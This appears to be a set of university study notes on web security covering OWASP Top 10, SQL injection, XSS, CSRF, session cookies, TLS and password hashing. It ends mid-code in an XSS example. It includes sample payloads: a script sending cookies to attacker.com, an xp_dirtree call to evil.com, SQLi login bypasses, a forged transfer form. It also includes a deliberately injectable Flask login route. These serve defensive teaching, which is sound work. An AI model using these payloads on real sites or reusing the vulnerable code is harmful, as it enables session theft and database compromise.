






# Web Security

<!-- SECTION_1_START -->
# MODULE 2: WEB SECURITY

## 1. Core Technical Definition & Intuitive Overview

### 1.1 Formal Definition (KTU 2024 Syllabus Aligned)

**Web Security** is the discipline of protecting websites, web applications, and web services from unauthorized access, malicious attacks, data breaches, and service disruptions by implementing defensive mechanisms across the client-server communication channel. It encompasses cryptographic protocols, authentication frameworks, input validation, session management, and secure software development life-cycle (SSDLC) practices designed to preserve the **CIA Triad** (Confidentiality, Integrity, Availability) of web-hosted assets.

> [!IMPORTANT]
> **CIA Triad in Web Context:**
> - **Confidentiality** → Only authorized users read sensitive data (e.g., passwords, credit card numbers).
> - **Integrity** → Data is not modified in transit or at rest without authorization.
> - **Availability** → The web service is reachable when legitimate users need it (resistance to DoS/DDoS).

> [!NOTE]
> **KTU 2024 Module 2 Weightage:** Web Security typically carries **15-20%** of the ESE marks. Expect direct questions on OWASP Top 10, SQL Injection, XSS, and TLS/SSL.

---

### 1.2 Conceptual Analogy: The "Bank Vault Building"

Think of a web application as a **multi-storey bank building** holding customer assets (data):

| Web Component | Bank Analogy | Security Mechanism |
|---|---|---|
| **Web Server** | The bank's main vault | Firewall, IDS/IPS |
| **Login Page** | The front entrance | Authentication (MFA, biometrics) |
| **User Session Cookie** | A visitor's wristband inside the building | Session ID, HttpOnly cookies |
| **Database** | The vault's safety deposit boxes | Encryption at rest, parameterized queries |
| **HTTPS (TLS)** | Armoured cash-transit vans moving money | Symmetric + Asymmetric encryption |
| **Input Fields** | The mail slot at the entrance | Input validation, sanitization |

A robber (attacker) does not need to break through the steel vault door — they can **trick the receptionist** (social engineering), **forge a wristband** (session hijacking), or **slip a malicious note through the mail slot** (SQL injection / XSS). Web Security is the **set of all guards, cameras, locks, and policies** working in layers to stop every possible attack route.

---

### 1.3 Web Security Threat Landscape (High-Level Map)

Modern web applications face threats that can be classified into **three concentric rings**:

1. **Outer Ring — Infrastructure Threats:** DDoS, DNS poisoning, network sniffing.
2. **Middle Ring — Application Threats:** SQL Injection, XSS, CSRF, file upload abuse.
3. **Inner Ring — Data Threats:** Cryptographic failures, IDOR (Insecure Direct Object Reference), data exfiltration.

> [!TIP]
> The **OWASP Top 10 (2021)** is the de-facto syllabus checklist for KTU. Memorize at least: A01 Broken Access Control, A02 Cryptographic Failures, A03 Injection (SQLi), A04 Insecure Design, A05 Security Misconfiguration, A07 Identification & Authentication Failures, and A10 Server-Side Request Forgery (SSRF).

---

### 1.4 GeoGebra / Network Visualization Block

> [!VISUALIZATION CONTROL]
> **Concept:** Visualizing the layered defense model as concentric regions of trust.
> **GeoGebra / Desmos Input Equations:**
> * `Circle 1: x^2 + y^2 = 1` (User / Untrusted Zone)
> * `Circle 2: x^2 + y^2 = 4` (DMZ — Web Server)
> * `Circle 3: x^2 + y^2 = 9` (Internal — Database)
>
> **Visual Description:** Three concentric circles. The attacker must penetrate **every ring** to reach the innermost database. Each ring represents a different defense layer (WAF, authentication, encryption).

---

### 1.5 Foundational Terms (Glossary)

> [!NOTE]
> **Vocabulary Anchor — Know These Before Proceeding:**
>
> - **Threat:** A potential event that could cause harm (e.g., SQL injection attempt).
> - **Vulnerability:** A weakness that allows a threat to materialize (e.g., unparameterized query).
> - **Attack:** The actual exploitation of a vulnerability.
> - **Risk:** Probability × Impact of a successful attack.
> - **Payload:** The malicious data portion of an attack (e.g., `' OR 1=1 --`).
> - **CVE:** Common Vulnerabilities and Exposures — public vulnerability catalogue.
> - **CVSS:** Common Vulnerability Scoring System (0.0 – 10.0 severity score).
<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# 2. Deep Theoretical Analysis & KTU High-Yield Formula Sheet

## 2.1 The Open Web Application Security Project (OWASP)

**OWASP** is a non-profit foundation that produces freely-available articles, methodologies, documentation, tools, and technologies in the field of web application security. The **OWASP Top 10** is the standard awareness document representing the most critical security risks to web applications.

### 2.1.1 OWASP Top 10 (2021 Edition) — KTU High-Yield

| Rank | Category | One-Line Risk | Typical Defense |
|---|---|---|---|
| A01 | Broken Access Control | Users act outside their intended permissions | RBAC, deny-by-default, IDOR checks |
| A02 | Cryptographic Failures | Weak/missing encryption of sensitive data | TLS 1.3, AES-256, bcrypt/Argon2 hashing |
| A03 | Injection (SQLi, NoSQLi, LDAP) | Hostile data sent to interpreter | Parameterized queries, ORM, WAF |
| A04 | Insecure Design | Flawed architectural patterns | Threat modeling, secure design patterns |
| A05 | Security Misconfiguration | Default configs, open admin panels | Hardening, automated scanning |
| A06 | Vulnerable & Outdated Components | Old libraries with known CVEs | SCA tools, dependency patching |
| A07 | Identification & Authentication Failures | Weak passwords, missing MFA | MFA, rate-limiting, secure session mgmt |
| A08 | Software & Data Integrity Failures | Untrusted updates, CI/CD pipeline attacks | Code signing, SLSA framework |
| A09 | Security Logging & Monitoring Failures | No detection of breaches | SIEM, alerting, audit trails |
| A10 | Server-Side Request Forgery (SSRF) | Server fetches remote resource based on user input | Allow-list, network segmentation |

---

## 2.2 SQL Injection (SQLi) — The "A03" Killer

### 2.2.1 Definition

**SQL Injection** is a code-injection technique where an attacker inserts malicious SQL statements into an input field that gets executed by the backend database, allowing unauthorized data access, modification, or even full system control.

### 2.2.2 Anatomy of a SQLi Attack

A login form typically executes:

```sql
SELECT * FROM users WHERE username = '<INPUT>' AND password = '<INPUT>';
```

If the developer concatenates input directly (a **vulnerable pattern**), an attacker types:

```
Username: admin' --
Password: anything
```

Resulting query becomes:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything';
```

The `--` is a SQL comment, so the password check is bypassed. **Authentication defeated.**

### 2.2.3 Types of SQLi

| Type | Mechanism | Blind? | Example Payload Fragment |
|---|---|---|---|
| **In-band (Classic)** | Same channel for attack + result | No | `' UNION SELECT username, password FROM users --` |
| **Inferential (Blind)** | Server behavior reveals info bit-by-bit | Yes | `' AND SUBSTRING(@@version,1,1)='5` |
| **Boolean-based Blind** | True/False responses leak data | Yes | `' AND 1=1 --` vs `' AND 1=2 --` |
| **Time-based Blind** | `SLEEP()` reveals via delay | Yes | `'; IF(1=1, WAITFOR DELAY '0:0:5', 0) --` |
| **Out-of-band** | DNS/HTTP exfiltration to attacker's server | No | `'; EXEC xp_dirtree '\\\\evil.com\\leak' --` |
| **Second-order** | Stored payload fires later in another query | No | Insert `evil' OR 1=1 --` in profile, fires on admin view |

### 2.2.4 Defenses Against SQLi

1. **Parameterized Queries (Prepared Statements)** — *Gold standard.*
2. **Stored Procedures** (with parameterization, not string concat).
3. **Object-Relational Mappers (ORMs)** — Django ORM, Hibernate, SQLAlchemy.
4. **Input Validation** (whitelist) — secondary control.
5. **Web Application Firewall (WAF)** — ModSecurity, Cloudflare.
6. **Principle of Least Privilege** for DB user accounts.

---

## 2.3 Cross-Site Scripting (XSS)

### 2.3.1 Definition

**XSS** is a client-side injection where an attacker injects malicious scripts (usually JavaScript) into web pages viewed by other users. The browser executes the script in the victim's security context, leading to cookie theft, session hijacking, or defacement.

### 2.3.2 XSS Variants

| Type | Persistence | Storage Location | KTU Example |
|---|---|---|---|
| **Reflected XSS** | Non-persistent | URL query string | Search results echo query unsanitized |
| **Stored (Persistent) XSS** | Persistent | Database | Forum post stores `<script>` tag |
| **DOM-based XSS** | Client-side | Browser DOM | `document.write(location.hash)` |
| **Mutated XSS (mXSS)** | Persistent | Browser parser quirks | Bypasses naive sanitizers |

### 2.3.3 Sample Attack Payload

```html
<script>
  document.location = 'https://attacker.com/steal?c=' + document.cookie;
</script>
```

If a vulnerable forum renders the post raw, every viewer's session cookie is exfiltrated to `attacker.com`.

### 2.3.4 Defenses

- **Output Encoding** (HTML, JavaScript, URL contexts separately).
- **Content Security Policy (CSP)** — `Content-Security-Policy: default-src 'self'`.
- **HttpOnly + Secure + SameSite cookies** (block JS access to cookies).
- **Trusted Types** API (modern browsers).
- **Input Sanitization** — but never *only* this (use a vetted library like DOMPurify).

---

## 2.4 Cross-Site Request Forgery (CSRF / XSRF / Sea-Surf)

### 2.4.1 Definition

**CSRF** tricks the victim's authenticated browser into submitting a state-changing request to a web application where they are logged in. The attacker piggybacks on the browser's auto-attached credentials (cookies, HTTP auth).

### 2.4.2 Classic CSRF Attack Flow

1. Victim logs into `bank.com`. Receives session cookie.
2. Victim visits `evil.com` (open in another tab).
3. `evil.com` contains hidden form: `<form action="https://bank.com/transfer" method="POST"> <input name="to" value="attacker"> <input name="amount" value="10000"> </form> <script>document.forms[0].submit();</script>`.
4. Browser sends the request with the `bank.com` cookie attached.
5. Bank processes the transfer — **user just lost ₹10,000**.

### 2.4.3 Defenses

- **Synchronizer Token Pattern** (hidden unique CSRF token per session).
- **SameSite Cookie Attribute** (`Strict` or `Lax`).
- **Double-Submit Cookie Pattern**.
- **Origin / Referer header validation** on the server.
- **Re-authentication for sensitive actions**.

---

## 2.5 Session Management & Cookies

### 2.5.1 The HTTP Stateless Problem

HTTP is **stateless** — every request is independent. To maintain user state, servers issue a **Session ID** stored in a **cookie** on the client.

### 2.5.2 Secure Cookie Attributes (Memorize This)

| Attribute | Purpose | Example |
|---|---|---|
| `HttpOnly` | Blocks JavaScript from reading cookie (mitigates XSS cookie theft) | `Set-Cookie: SID=abc; HttpOnly` |
| `Secure` | Cookie only sent over HTTPS | `Set-Cookie: SID=abc; Secure` |
| `SameSite=Strict` | Cookie never sent on cross-site requests (CSRF defense) | `Set-Cookie: SID=abc; SameSite=Strict` |
| `Path` / `Domain` | Scoping | `Set-Cookie: SID=abc; Path=/; Domain=bank.com` |
| `Max-Age` / `Expires` | Lifetime control | `Set-Cookie: SID=abc; Max-Age=3600` |
| `__Host-` prefix | Cookie name prefix — must be Secure, no Domain, Path=/ | `Set-Cookie: __Host-SID=abc; Secure; Path=/` |

### 2.5.3 Session Hijacking Attacks

- **Session Sniffing** — captured over unencrypted HTTP.
- **Session Fixation** — attacker plants a known SID before login.
- **Session Brute-Force** — guessing weak SIDs.
- **Cross-Site Scripting Theft** — see §2.3.

> [!IMPORTANT]
> **Session ID Requirements (RFC 6265 / OWASP):**
> - Length ≥ **128 bits** of entropy.
> - Generated via CSPRNG (`/dev/urandom`, `crypto.randomBytes(32)`).
> - Logout must invalidate server-side.
> - Idle timeout + absolute timeout.

---

## 2.6 Transport Layer Security (TLS) — The Backbone of Web Security

### 2.6.1 Definition

**TLS** (formerly SSL) is the cryptographic protocol that provides **confidentiality, integrity, and authentication** for data in transit over the internet. HTTPS = HTTP over TLS.

### 2.6.2 TLS 1.3 Handshake (Modern, 1-RTT)

1. **Client → ClientHello** : supported ciphers, key share (e.g., X25519).
2. **Server → ServerHello + EncryptedExtensions + Certificate + CertificateVerify + Finished** : server picks cipher, sends certificate (X.509), proves private key ownership, sends MAC of transcript.
3. **Client → Finished** : confirms handshake.
4. Both derive **symmetric session keys** (HKDF from ECDHE shared secret).
5. Application data flows encrypted (AES-256-GCM or ChaCha20-Poly1305).

> [!NOTE]
> **Perfect Forward Secrecy (PFS):** ECDHE generates a fresh key pair per session — compromising the server's long-term key cannot decrypt past sessions.

### 2.6.3 TLS 1.2 vs TLS 1.3

| Property | TLS 1.2 | TLS 1.3 |
|---|---|---|
| Handshake RTTs | 2 | 1 (0-RTT possible for resume) |
| Cipher suites | Many (incl. CBC, RC4 — broken) | Only AEAD: AES-GCM, ChaCha20-Poly1305 |
| PFS | Optional | **Mandatory** (ECDHE) |
| Vulnerabilities | BEAST, POODLE, Heartbleed | None widely known |
| KTU Relevance | Historical | **Current syllabus** |

### 2.6.4 X.509 Digital Certificates

A **digital certificate** binds a public key to an identity (domain name) and is signed by a trusted **Certificate Authority (CA)**. Chain of trust:

```
Root CA (in OS/browser trust store)
  └─ Intermediate CA
       └─ End-entity certificate (yourbank.com)
```

Validation steps: chain verification, signature check, **Not Before / Not After** expiry, **Subject Alternative Name (SAN)** matching URL, **CRL/OCSP** revocation check.

---

## 2.7 Authentication & Password Security

### 2.7.1 Multi-Factor Authentication (MFA)

Authentication factors (must use **≥ 2 categories** for true MFA):

| Factor | Category | Example |
|---|---|---|
| **Knowledge** | Something you know | Password, PIN |
| **Possession** | Something you have | OTP token, smartphone |
| **Inherence** | Something you are | Fingerprint, face, iris |
| **Location** | Somewhere you are | GPS, IP geolocation |
| **Behavior** | Something you do | Typing rhythm, gait |

### 2.7.2 Password Hashing Algorithms

Never store passwords in plaintext. Hashing algorithms ranked by strength:

```
Plaintext  →  SHA-1 (BROKEN)  →  MD5 (BROKEN)  →  SHA-256 (fast, NOT for passwords)
           →  bcrypt  →  scrypt  →  Argon2id (CURRENT GOLD STANDARD)
```

> [!WARNING]
> **Salt is non-negotiable.** A per-user random salt of ≥ 16 bytes defeats rainbow-table attacks. Use Argon2id with parameters tuned for your hardware (e.g., `t=3, m=64MB, p=4`).

### 2.7.3 Defense in Depth vs Zero Trust

- **Defense in Depth:** Multiple overlapping security layers (WAF + Auth + Encryption + Logs).
- **Zero Trust Model:** "Never trust, always verify." Every request authenticated, authorized, encrypted regardless of network location. Principle: **mTLS + micro-segmentation + least privilege**.

---

## 2.8 KTU Formula & Reference Sheet (High-Yield Quick Lookup)

| Concept | Key Formula / Value | Notes |
|---|---|---|
| Entropy of random ID | $H = \log_2(N)$ where $N$ = keyspace | Need $H \geq 128$ bits |
| Password strength | $H = L \cdot \log_2(C)$ | $L$=length, $C$=charset size |
| RSA key strength (2019) | $\geq 2048$ bits | NIST SP 800-57 Part 1 Rev. 5 |
| ECDSA key strength | $256$ bits ≈ RSA $3072$ bits | NIST curve P-256 / Curve25519 |
| AES key size | $128$, $192$, $256$ bits | AES-256 standard for top-secret |
| SHA-256 output | $256$ bits = $32$ bytes | Collision resistance: $2^{128}$ |
| Bcrypt cost factor | $2^{cost}$ key schedule rounds | Increase cost by 1 → doubles work |
| Argon2id parameters | $t$ (time), $m$ (memory), $p$ (parallelism) | Tune for ~250ms per hash |
| TLS 1.3 cipher suites | `TLS_AES_256_GCM_SHA384`, `TLS_CHACHA20_POLY1305_SHA256`, `TLS_AES_128_GCM_SHA256` | AEAD only |
| HTTP Status — Auth Required | $401$ Unauthorized | |
| HTTP Status — Forbidden | $403$ Forbidden | Authenticated but not permitted |
| HTTP Status — CSRF Token Mismatch | $419$ (Laravel) or custom $403$ | |
| HTTP Strict Transport Security | `max-age=31536000; includeSubDomains; preload` | Send on HTTPS responses only |
| Session entropy | $H \geq 64$ bits (OWASP minimum), $\geq 128$ recommended | |
| CSP default-src | `Content-Security-Policy: default-src 'self'` | Most restrictive baseline |

> [!TIP]
> **Avoid the pipe `\|` in the table above for absolute value notation.** All separators are clean ASCII pipes, and any equation needing absolute value uses `$\vert x \vert$` in math mode instead of inline `\|x\|`.

---

## 2.9 Real-World Engineering Utility

| Domain | Web Security Use |
|---|---|
| **E-Commerce** | PCI-DSS compliance requires TLS 1.2+, tokenized payments. |
| **Banking & Fintech** | OAuth 2.0 + OpenID Connect + FAPI for API security. |
| **Healthcare (HIPAA)** | Encryption in transit (TLS) and at rest (AES-256). |
| **DevSecOps Pipelines** | SAST, DAST, SCA integrated into CI/CD. |
| **Government (e-Governance KTU context)** | Digital Signature Certificates (DSC) for e-filing. |
| **IoT & Edge** | mTLS between device and cloud, certificate pinning in mobile apps. |
<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# 3. Step-by-Step Derivations, Code, and Symbolic Implementations

## 3.1 SQL Injection — Vulnerable vs Secure Code (Python/Flask + SQLite)

### 3.1.1 ❌ VULNERABLE Pattern (String Concatenation)

```python
from flask import Flask, request
import sqlite3

app = Flask(__name__)

@app.route("/login_vuln")
def login_vulnerable():
    username = request.args.get("u", "")
    password = request.args.get("p", "")

    conn = sqlite3.connect("users.db")
    cursor = conn.cursor()

    # DANGER: Direct string concatenation — INJECTION VULNERABLE
    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
    print("Executing:", query)
    cursor.execute(query)
    result = cursor.fetchone()

    conn.close()
    if result:
        return f"Welcome {result[1]}!"
    return "Login failed", 401

if __name__ == "__main__":
    app.run(debug=True)
```

**Attack input:** `?u=admin' --&p=anything`

**Resulting SQL sent to DB:**

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything'
```

The `--` comments out the password clause — full bypass.

---

### 3.1.2 ✅ SECURE Pattern (Parameterized Query)

```python
from flask import Flask, request
import sqlite3
import os

app = Flask(__name__)

def hash_password(plain: str) -> str:
    """Argon2id password hashing with per-user random salt."""
    from argon2 import PasswordHasher
    ph = PasswordHasher(time_cost=3, memory_cost=64 * 1024, parallelism=4)
    return ph.hash(plain)

def verify_password(stored_hash: str, plain: str) -> bool:
    from argon2 import PasswordHasher, exceptions
    ph = PasswordHasher()
    try:
        ph.verify(stored_hash, plain)
        return True
    except exceptions.VerifyMismatchError:
        return False

@app.route("/login_secure")
def login_secure():
    username: str = request.args.get("u", "").strip()
    password: str = request.args.get("p", "")

    # Input validation — boundary check
    if not username or not password:
        return "Bad request", 400
    if len(username) > 64 or len(password) > 128:
        return "Input too long", 400

    conn = sqlite3.connect("users.db")
    cursor = conn.cursor()

    # PARAMETERIZED QUERY — injection impossible
    query = "SELECT username, password_hash FROM users WHERE username = ? LIMIT 1"
    cursor.execute(query, (username,))
    row = cursor.fetchone()
    conn.close()

    if row and verify_password(row[1], password):
        return f"Welcome {row[0]}!"
    return "Invalid credentials", 401

if __name__ == "__main__":
    app.run(debug=False, ssl_context="adhoc")  # HTTPS in dev
```

**Why this is safe:**

- The DB driver treats the entire `?` placeholder as a literal string, not SQL code.
- Even if the user submits `' OR 1=1 --`, it's stored as the literal username `'` `OR` `1=1` `--`, which won't match any row.
- Passwords are Argon2id-hashed; even DB breach leaks only hashes.

---

## 3.2 XSS — Vulnerable vs Secure Code (Node.js / Express)

### 3.2.1 ❌ VULNERABLE Pattern (Unescaped Output)

```javascript
const express = require('express');
const app = express();

app.get('/search', (req, res) => {
    const q = req.query.q || '';
    // DANGER: Reflected XSS — user input echoed raw into HTML
